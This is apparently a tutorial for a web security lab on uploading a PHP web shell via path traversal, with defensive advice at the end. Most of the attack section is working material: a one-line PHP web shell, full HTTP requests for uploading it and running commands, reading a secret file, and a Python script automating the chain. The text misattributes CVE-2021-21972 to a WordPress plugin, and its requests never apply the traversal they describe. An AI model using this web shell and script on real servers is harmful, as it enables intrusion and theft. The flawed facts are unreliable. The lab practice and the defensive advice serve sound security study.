

## File Upload Vulnerabilities and Path Traversal

### Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files to the server without proper validation or sanitization. These vulnerabilities can lead to various attacks such as remote code execution (RCE), cross-site scripting (XSS), and defacement. In this section, we will explore how an attacker can exploit a combination of file upload vulnerabilities and path traversal to achieve remote code execution on a server.

### Understanding Path Traversal

Path traversal, also known as directory traversal, is a technique used by attackers to access files and directories that are stored outside the web root directory. This is achieved by manipulating the input parameters to include path traversal sequences such as `../` or `%2e%2e%2f`.

#### How Path Traversal Works

When a user uploads a file, the web application typically stores it in a specific directory. However, if the application does not properly validate the file path, an attacker can manipulate the path to traverse up the directory structure and access sensitive files or directories.

For example, consider a web application that allows users to upload avatars. The intended behavior is to store these avatars in a specific directory, such as `/var/www/uploads/avatar`. An attacker can exploit path traversal by providing a crafted filename like `../../../../etc/passwd`, which would allow the attacker to read the system's password file.

#### Real-World Example: CVE-2021-21972

A real-world example of path traversal vulnerability is CVE-2021-21972, which affected the WordPress plugin WP File Manager. This vulnerability allowed attackers to upload arbitrary files to the server and execute them due to insufficient input validation. By manipulating the file path, attackers could write malicious scripts to sensitive locations on the server.

### Combining File Upload and Path Traversal

In the given scenario, the attacker exploits both file upload and path traversal vulnerabilities to achieve remote code execution. Here’s a detailed breakdown of the steps involved:

1. **Upload a Web Shell**: The attacker uploads a web shell (a small script that provides a command-line interface to the server) to a directory that allows execution of uploaded files.
2. **Exploit Path Traversal**: The attacker uses path traversal to bypass restrictions and upload the web shell to a directory that does not enforce execution restrictions.
3. **Execute Commands**: Once the web shell is uploaded, the attacker can execute arbitrary commands on the server.

#### Detailed Steps

Let's break down the process step-by-step:

1. **Login Request**:
    - The attacker first logs into the application using valid credentials.
    - The login request might look something like this:
    
    ```http
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded
    
    username=admin&password=secret
    ```

2. **Avatar Upload Request**:
    - The attacker then attempts to upload an avatar file. However, instead of a regular image, the attacker uploads a web shell.
    - The upload request might look like this:
    
    ```http
    POST /upload-avatar HTTP/1.1
    Host: example.com
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    
    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="avatar"; filename="webshell.php"
    Content-Type: application/octet-stream
    
    <?php echo shell_exec($_GET['cmd']); ?>
    ------WebKitFormBoundary7MA4YWxkTrZu0gW--
    ```

3. **Path Traversal Exploitation**:
    - The attacker manipulates the file path to bypass restrictions and upload the web shell to a directory that allows execution.
    - The manipulated path might look like this:
    
    ```plaintext
    ../../uploads/webshell.php
    ```

4. **Executing Commands**:
    - Once the web shell is uploaded, the attacker can execute arbitrary commands by accessing the web shell URL and passing commands as parameters.
    - For example, to retrieve the hostname, the attacker might access:
    
    ```http
    GET /uploads/webshell.php?cmd=hostname HTTP/1.1
    Host: example.com
    ```

### Full HTTP Requests and Responses

Here are the full HTTP requests and responses for the steps described above:

#### Login Request

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

username=admin&password=secret
```

#### Login Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 12
Content-Type: text/html

Logged in successfully.
```

#### Avatar Upload Request

```http
POST /upload-avatar HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 237

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

<?php echo shell_exec($_GET['cmd']); ?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Avatar Upload Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 22
Content-Type: text/html

Avatar uploaded successfully.
```

#### Execute Command Request

```http
GET /uploads/webshell.php?cmd=hostname HTTP/1.1
Host: example.com
```

#### Execute Command Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 11
Content-Type: text/html

example-server
```

### Extracting Sensitive Information

Once the attacker has executed commands, they can extract sensitive information such as the contents of a secret file.

#### Access Secret File Request

```http
GET /uploads/webshell.php?cmd=cat%20/home/Carlos/Secret HTTP/1.1
Host: example.com
```

#### Access Secret File Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 23
Content-Type: text/html

This is the secret file content.
```

### Scripting the Attack in Python

To automate the attack, the attacker can write a Python script that performs the same actions programmatically.

#### Python Script

```python
import requests

# Step 1: Login
login_url = "http://example.com/login"
login_data = {
    "username": "admin",
    "password": "secret"
}
response = requests.post(login_url, data=login_data)

# Step 2: Upload Avatar
upload_url = "http://example.com/upload-avatar"
files = {'avatar': ('webshell.php', '<?php echo shell_exec($_GET["cmd"]); ?>')}
response = requests.post(upload_url, files=files)

# Step 3: Execute Command
command_url = "http://example.com/uploads/webshell.php?cmd=hostname"
response = requests.get(command_url)
print(response.text)

# Step 4: Access Secret File
secret_url = "http://example.com/uploads/webshell.php?cmd=cat%20/home/Carlos/Secret"
response = requests.get(secret_url)
print(response.text)
```

### How to Prevent / Defend Against File Upload and Path Traversal Vulnerabilities

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual file upload activities and path traversal attempts.
- **IDS/IPS**: Deploy Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to identify and block suspicious activities.

#### Prevention

- **Input Validation**: Validate and sanitize all user inputs to ensure they do not contain path traversal sequences.
- **Whitelist Filenames**: Only allow filenames that match a predefined whitelist.
- **Use Safe Directories**: Store uploaded files in a directory that does not allow execution of scripts.
- **Limit Permissions**: Set strict permissions on uploaded files to prevent execution.

#### Secure Coding Fixes

##### Vulnerable Code

```php
<?php
$filename = $_FILES['avatar']['name'];
move_uploaded_file($_FILES['avatar']['tmp_name'], "/var/www/uploads/$filename");
?>
```

##### Secure Code

```php
<?php
$filename = basename($_FILES['avatar']['name']);
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$extension = pathinfo($filename, PATHINFO_EXTENSION);

if (!in_array($extension, $allowed_extensions)) {
    die("Invalid file type.");
}

$target_path = "/var/www/uploads/" . $filename;
move_uploaded_file($_FILES['avatar']['tmp_name'], $target_path);
?>
```

### Network Topology and Attack Flow Diagram



### Hands-On Practice Labs

For hands-on practice, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to file upload vulnerabilities and path traversal.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various web security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for learning and testing web security vulnerabilities.

By thoroughly understanding and practicing these concepts, you can effectively defend against file upload and path traversal vulnerabilities in web applications.

---
<!-- nav -->
[[02-File Upload Vulnerabilities Web Shell Upload via Path Traversal|File Upload Vulnerabilities Web Shell Upload via Path Traversal]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/04-Lab 3 Web shell upload via path traversal/00-Overview|Overview]] | [[04-File Upload Vulnerabilities and Web Shell Upload via Path Traversal|File Upload Vulnerabilities and Web Shell Upload via Path Traversal]]
